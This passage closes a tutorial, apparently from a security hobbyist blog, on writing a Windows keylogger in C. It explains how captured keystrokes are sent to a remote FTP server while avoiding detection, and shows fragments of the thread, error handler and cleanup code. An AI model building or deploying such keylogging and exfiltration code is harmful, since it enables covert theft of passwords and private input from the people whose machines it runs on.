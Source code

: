 ```c
        ResetEvent(hTempBufHasData);
        //SetEvent(hTempBufNoData);
    }

    ExitThread(0);
}
```

There’s probably a more efficient way to do this but this is how I did it. I didn’t want to keep the handle to the FTP server because that would probably mean that the process would maintain an connection with the remote server which is not as stealthy. Inside this infinite loop, it `Sleep`s a specified timeout value `TIMEOUT` before doing anything else to try to limit the rate of connections. It will then signal that its temporary buffer has no data to upload and then enter an infinite wait state until the data in the keystroke buffer has transferred its content over. After this has been achieved, it will open an FTP internet connection and then authenticate with the server using the defined credentials. To write the keystrokes to the server, it will issue an `APPE` (append) command to the specified file location and begin writing. Once this is done, it will proceed to close the connection and repeat.

While writing this, I’ve realized that I should probably signal the no data object first before `Sleep`ing. I’ll keep it like so for now since I don’t want to accidentally break the code.

TODO: Explain the code for these functions.

```c
// error message handler function
VOID Fatal(LPCSTR s) {
#ifdef DEBUG
    CHAR err_buf[BUF_SIZ];

    sprintf(err_buf, "%s failed: %lu", s, GetLastError());
    MessageBox(NULL, err_buf, NAME, MB_OK | MB_SYSTEMMODAL | MB_ICONERROR);
#endif

    ExitProcess(1);
}

// clean up function on exit
VOID CleanUp(VOID) {
    if (lpLogBuf && ghLogHeap) {
        HeapFree(ghLogHeap, 0, lpLogBuf);
        HeapDestroy(ghLogHeap);
    }
    if (ghHook) UnhookWindowsHookEx(ghHook);
    if (ghMutex) CloseHandle(ghMutex);
    if (lpTempBuf && ghTempHeap) {
        HeapFree(ghTempHeap, 0, lpTempBuf);
        HeapDestroy(ghTempHeap);
    }
}
```

---
## References

### 0x00sec

- [0x00sec: Windows Keylogging - Part I](https://0x00sec.org/t/windows-keylogging-part-i/99)

- [0x00sec: Windows Keylogging - Part II](https://0x00sec.org/t/windows-keylogging-part-ii/1070)